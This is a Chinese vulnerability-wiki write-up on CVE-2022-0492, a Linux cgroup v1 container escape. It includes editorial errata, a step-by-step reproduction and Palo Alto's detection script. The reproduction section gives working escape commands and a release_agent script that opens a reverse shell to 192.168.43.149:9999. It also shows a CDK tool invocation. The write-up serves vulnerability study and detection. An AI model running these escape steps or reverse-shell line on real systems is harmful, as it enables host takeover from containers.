







# Linux-内核-cgroup-v1-逻辑错误导致容器逃逸-CVE-2022-0492

> 图片资源校订（2026-10-04）：本篇曾被目录维护重新加入为空文件的图片，已按同篇历史 Git 引用及迁移记录恢复原始图像字节，并逐张查看像素；没有替换为其他文章截图，也没有修改图中原值。后文“未查看/仅保留引用”的旧说明描述此次校订前状态；来源截图不等于维护者复现，图片中未展示的结果仍未知。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Linux cgroup v1 release_agent
- 文献类型：容器逃逸复现与检测
- 版本、权限及部署边界：示例Docker19.03.6/宿主5.4.0-84；禁用AppArmor和seccomp、允许用户namespace、root v1 cgroup等
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. frontmatter version为uname -a，明确误抽命令；需宿主版本/配置结构化
2. CAP_SYS_ADMIN路径检测脚本自己指出可能不需要CVE-2022-0492，应与漏洞路径分离，不能把配置特权逃逸全部算此CVE
3. 仅称启用AppArmor/SELinux/Seccomp便保护过度概括，应特指阻止所需syscall/mount的策略
4. 参考原研究/检测脚本较齐全，明确rdma条件与宿主内核；外部环境指南为关联而非重复正文
5. ubuntu:latest不固定、CAP_SYS_ADMIM拼写、宿主路径依赖OverlayFS需补；反弹端点依赖原实验环境；补修复分支

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://kubernetes.io/zh-cn/docs/tasks/configure-pod-container/security-context/>
- 原文参考链接（未重新核验）：<https://www.redhat.com/en/topics/linux/what-is-selinux#:~:text=Security%2DEnhanced%20Linux%20\(SELinux\>
- 原文参考链接（未重新核验）：<https://docs.docker.com/engine/security/seccomp/>
- 原文参考链接（未重新核验）：<https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0492>
- 原文参考链接（未重新核验）：<https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/>
- 原文参考链接（未重新核验）：<http://terenceli.github.io/技术/2022/03/06/cve-2022-0492>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

## 漏洞描述

该漏洞是由于 control groups（cgroups）中的一个逻辑错误所致。Control Groups（cgroups）是一个 Linux 特性，允许管理员限制、记录和隔离一组进程所使用的资源。Linux 支持两种 cgroup 架构，分别名为 cgroup v1 和 cgroup v2，该漏洞只影响 cgroup v1 架构。

如果容器运行了以下操作，则可逃逸：

- 以 root 用户身份运行，或没有为容器进程设置 [no_new_privs](https://kubernetes.io/zh-cn/docs/tasks/configure-pod-container/security-context/) 标志；
- 没有启用 AppArmor 或 [SELinux](https://www.redhat.com/en/topics/linux/what-is-selinux#:~:text=Security%2DEnhanced%20Linux%20\(SELinux\),Linux%20Security%20Modules%20\(LSM\).) 进行保护；
- 没有启用  [Seccomp](https://docs.docker.com/engine/security/seccomp/)  进行保护；
- 在启用了非特权用户命名空间的主机上运行；
- 隶属于 root v1 cgroup。

或满足下列条件，则可逃逸：

- 具有 CAP_SYS_ADMIN 权限；
- 没有启用 AppArmor 或 SELinux 进行保护；
- 没有创建 cgroup 命名空间；
- 隶属于 root v1 cgroup。

参考链接：

  - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0492
  - https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/
  - http://terenceli.github.io/技术/2022/03/06/cve-2022-0492
  - https://github.com/PaloAltoNetworks/can-ctr-escape-cve-2022-0492
  - https://github.com/Metarget/metarget

## 环境搭建

基础环境准备（Docker + Minikube + Kubernetes），可参考 [Kubernetes + Ubuntu 18.04 漏洞环境搭建](https://github.com/Threekiii/Awesome-POC/blob/master/%E4%BA%91%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/Kubernetes%20%2B%20Ubuntu%2018.04%20%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md) 完成。

本例中各组件版本如下：

```
Docker version: 19.03.6
```

Linux 内核版本 `5.4.0-84-generic`：

```
uname -a
Linux ubuntu 5.4.0-84-generic #94~18.04.1-Ubuntu SMP Thu Aug 26 23:17:46 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```




## 漏洞复现

创建禁用了 AppArmor 和 Seccomp 的容器：

```
docker run -it --name cve-2022-0492 --security-opt="seccomp=unconfined" --security-opt="apparmor=unconfined" ubuntu:latest /bin/bash
```

AppArmor 和 SELinux 都会阻止挂载，这意味着使用其中任何一种方式运行的容器都受到保护 。如果两者皆禁用，容器可以通过滥用用户命名空间来挂载 cgroupfs。

挂载 cgroupfs 需要在托管当前 cgroup 命名空间的用户命名空间中拥有 `CAP_SYS_ADMIN` 权限。默认情况下，容器运行时没有 `CAP_SYS_ADMIM` 权限 ，因此无法在初始用户命名空间中挂载 cgroupfs。但是，通过 `unshare()` 系统调用，容器可以创建新的用户和 cgroup 命名空间，并在这些命名空间中拥有 `CAP_SYS_ADMIN` 权限并可以挂载 cgroupfs：

- 第一步，创建一个新的用户和 cgroup 命名空间，它将具有 `CAP_SYS_ADMIN` 权限：

```
root@0c782b51c5ac:/# unshare -UrmC bash
```

>并非所有容器都能创建新的用户命名空间—— 宿主机必须启用非特权用户命名空间 。在最近的 Ubuntu 版本中，这是默认设置。由于 Seccomp 会阻止 `unshare()` 系统调用， 因此只有在未启用 Seccomp 的情况下运行的容器才能创建新的用户命名空间 。

- 第二步，容器在新的用户和 cgroup 命名空间中挂载 root RDMA cgroup：

```
root@0c782b51c5ac:/# mount -it cgroup -o rdma cgroup /mnt
```

- 第三步，在 cgroup 中创建一个名为 `w` 的子组，开启 release agent，设置 `notify_on_release=1`：

```
root@0c782b51c5ac:/# d=`dirname $(ls -x /mnt/r* |head -n1)`
root@0c782b51c5ac:/# mkdir -p $d/w;echo 1 >$d/w/notify_on_release
```

- 第四步，从 `/etc/mtab` 中提取 cgroup 临时路径，将 `exp.sh` 路径写入 `/mnt/release_agent`：

```
root@0c782b51c5ac:/# t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
root@0c782b51c5ac:/# printf '#!/bin/bash\n/bin/bash -i >& /dev/tcp/192.168.43.149/9999 0>&1' > /exp.sh; chmod 777 /exp.sh
root@0c782b51c5ac:/# echo "$t/exp.sh" > $d/release_agent
```







- 第五步，创建一个马上终止的进程，当 `w` 子组的最后一个进程退出时，将激活 `/mnt/release_agent`：

```
root@0c782b51c5ac:/# sh -c "echo 0 >$d/w/cgroup.procs"
```




监听 9999 端口，获取反弹 shell：




也可以通过 [CDK](https://github.com/cdk-team/CDK) 复现。下载 CDK ，并将其传入容器 `/tmp` 目录下，执行命令：

```
./cdk run mount-cgroup "whoami" rdma
```




> 注意，cdk 默认为 memory cgroup，权限不足，需要指定为 rdma。




## 漏洞 POC

[can-ctr-escape-cve-2022-0492.sh](https://github.com/PaloAltoNetworks/can-ctr-escape-cve-2022-0492/blob/main/can-ctr-escape-cve-2022-0492.sh)

```shell
#!/bin/bash
echo "[*] Testing whether CVE-2022-0492 can be exploited for container escape" 

# Setup test dir
test_dir=/tmp/.cve-2022-0492-test
if ! mkdir -p $test_dir ; then
    echo "ERROR: failed to create test directory at $test_dir" 
    exit 1
fi

# Test whether escape via CAP_SYS_ADMIN is possible
if mount -t cgroup -o memory cgroup $test_dir >/dev/null 2>&1 ; then
    if test -w $test_dir/release_agent ; then
        echo "[!] Exploitable: the container can escape as it possesses CAP_SYS_ADMIN and runs without AppArmor or SELinux. Note that it likely doesn't need CVE-2022-0492 to escape."
        umount $test_dir && rm -rf $test_dir
        exit 0
    fi
    umount $test_dir
fi

# Test whether escape via user namespaces is possible
while read -r subsys
do
    if unshare -UrmC --propagation=unchanged bash -c "mount -t cgroup -o $subsys cgroup $test_dir 2>&1 >/dev/null && test -w $test_dir/release_agent" >/dev/null 2>&1 ; then
        echo "[!] Exploitable: the container can abuse user namespaces to escape"
        rm -rf $test_dir
        exit 0
    fi
done <<< $(cat /proc/$$/cgroup | grep -Eo '[0-9]+:[^:]+' | grep -Eo '[^:]+$')

# Cannot escape via either method
rm -rf $test_dir
echo "[+] Contained: cannot escape via CVE-2022-0492"
```

## 漏洞修复

- 升级补丁 https://access.redhat.com/security/cve/cve-2022-0492


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
